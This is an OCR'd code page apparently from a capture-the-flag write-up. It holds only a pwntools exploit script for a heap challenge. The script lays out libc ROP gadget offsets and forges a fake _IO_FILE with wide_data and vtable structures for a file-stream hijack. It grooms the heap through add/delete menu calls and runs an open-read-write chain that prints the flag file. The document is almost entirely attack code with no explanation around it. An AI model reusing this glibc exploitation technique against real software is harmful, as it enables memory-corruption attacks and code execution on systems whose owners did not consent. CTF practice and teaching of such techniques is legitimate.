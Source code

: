```python
syscall_ret=read+0x10
pop_rax=libc_base+0x0000000000045eb0
pop_rdi=libc_base+0x000000000002a3e5
pop_rsi=libc_base+0x000000000002be51
pop_rdx=libc_base+0x00000000000796a2
ret=libc_base+0x0000000000029cd6
leave_ret=0x000000000004da83+libc_base
pop_r12_r15=0x000000000002be4c+libc_base
close=libc_base+libc.sym['close']
read=libc_base+libc.sym['read']
write=libc_base+libc.sym['write']

fake_file_addr=heap_base+0xc30
wide_data_addr=fake_file_addr+0xd0
wide_vtable_addr=wide_data_addr+0xe8
rop_addr=wide_vtable_addr+0x70
flag_addr=rop_addr
fake_file=p64(0)*3+p64(1)
fake_file=fake_file.ljust(0x38,b"\x00")+p64(rop_addr)
fake_file=fake_file.ljust(0x90,b"\x00")+p64(wide_data_addr)
fake_file=fake_file.ljust(0xc8,b"\x00")+p64(_IO_wfile_jumps)
wide_data=b"\x00".ljust(0xe0,b"\x00")+p64(wide_vtable_addr)
wide_vtable=b"\x00".ljust(0x68,b"\x00")+p64(magic_gadget)
orw=b"flag\x00\x00\x00\x00"+p64(pop_r12_r15)+p64(0)+p64(rop_addr-0x8)+p64(leave_ret)+p64(pop_rdi)+p64(flag_addr)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall_ret)
orw+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(rop_addr+0x300)+p64(pop_rdx)+p64(0x50)+p64(read)+p64(pop_rdi)+p64(1)+p64(write)


delete(2)
add(0x600,"A") #2
payload=fake_file+wide_data+wide_vtable+orw
add(0x418,"A") #8
delete(3)
add(0x448,p64(0)*2+p64(~(2 | 0x8 | 0x800)+(1<<64))+p64(0)+payload) #3
add(0xeec0,"A")#9
add(0xeec0,"A")#10
add(0x1000-0x480,"A")#11
add(0x438,"A") #12
delete(12)
add(0x438,"A"*0x438)

menu(1)
ru("Size:")
sl(str(0x500))


p.interactive()
```

![image-20231216233836916](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111727.png)

